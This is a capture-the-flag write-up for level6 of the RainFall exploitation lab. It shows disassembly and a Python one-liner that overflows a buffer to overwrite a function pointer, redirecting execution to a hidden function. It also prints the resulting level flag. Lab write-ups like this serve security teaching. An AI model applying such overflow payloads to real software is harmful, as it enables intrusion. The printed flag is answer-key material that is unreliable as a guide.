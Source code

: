 ### Exploit

This level is ever so slightly different, as instead of expecting the user to write on the standard input, the program 
segfaults unless we pass an argument to the `main` function.

```
    level6@RainFall:~$ ./level6
    Segmentation fault (core dumped)
    level6@RainFall:~$ ./level6 test
    Nope
```
This program is very much like this of level1: function `n` makes a syscall, but the function itself is never called within the program. But `m` (0x8048468) is.

```
    0x080484a5 <+41>:	mov    edx,0x8048468
    [...]
    0x080484b8 <+60>:	mov    edx,eax
    [...]
    0x080484d0 <+84>:	call   eax
```

Once again, simply push the address to function `n` on top of the stack so it executes `n` instead of `m`. 

```
    level6@RainFall:~$ ./level6 $(python -c 'print "a"*72 + "\x54\x84\x04\x08"')
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

That wasn't too bad, was it?
